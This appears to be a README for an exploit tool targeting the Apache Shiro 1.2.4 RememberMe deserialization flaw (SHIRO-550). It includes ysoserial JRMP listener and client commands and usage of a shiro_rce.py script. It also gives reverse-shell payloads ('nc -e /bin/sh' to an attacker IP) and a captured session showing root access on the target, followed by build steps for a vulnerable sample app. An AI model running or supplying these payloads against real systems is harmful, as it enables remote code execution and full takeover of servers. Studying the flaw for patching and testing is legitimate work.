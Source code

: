 # Shiro RememberMe 1.2.4 反序列化漏洞（SHIRO-550）

![](./SHIRO-550.gif)

## commons-collections-3.2.1.jar

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient "10.10.20.166:12345" |python exp.py`

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'nc -e /bin/sh 192.168.5.86 8989'`

`nc -nlvp 8989`

![](./commons-collections-3.2.1.jpg)

## python usage:

```
python3 shiro_rce.py


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞




[+] Usage: python3 shiro_rce.py http://10.10.20.166:8080/shiro/ command

```

##  get war for samples-web-1.2.4.war

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4
mvn install
```
#### mvn version

```
mvn -v
Apache Maven 3.6.2 (40f52333136460af0dc0d7232c0dc0bcf0d9e117; 2019-08-27T11:06:16-04:00)
Maven home: /opt/apache-maven-3.6.2
Java version: 1.8.0_60, vendor: Oracle Corporation, runtime: /opt/jdk1.8.0_60/jre
Default locale: en_US, platform encoding: UTF-8
OS name: "linux", version: "4.19.0-kali1-amd64", arch: "amd64", family: "unix"

```

#### cat ~/.m2/toolchains.xml 
```
<?xml version="1.0" encoding="UTF8"?>
<toolchains>
    <toolchain>
      <type>jdk</type>
      <provides>
        <version>1.6</version>
        <vendor>sun</vendor>
      </provides>
      <configuration>
           <jdkHome>/opt/jdk/jdk1.6.0_45</jdkHome>
      </configuration>
    </toolchain> 
</toolchains>

```


## Reverse shell

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "nc -e /bin/sh 192.168.5.86 9999"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:33

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

```
C:\Users\CTF>nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.5.86] from (UNKNOWN) [10.10.20.166] 38656
id
uid=0(root) gid=0(root) groups=0(root)
cd /tmp
ls
123123123123
```

## 参考链接：

http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html

https://blog.zsxsoft.com/post/35

https://paper.seebug.org/shiro-rememberme-1-2-4/
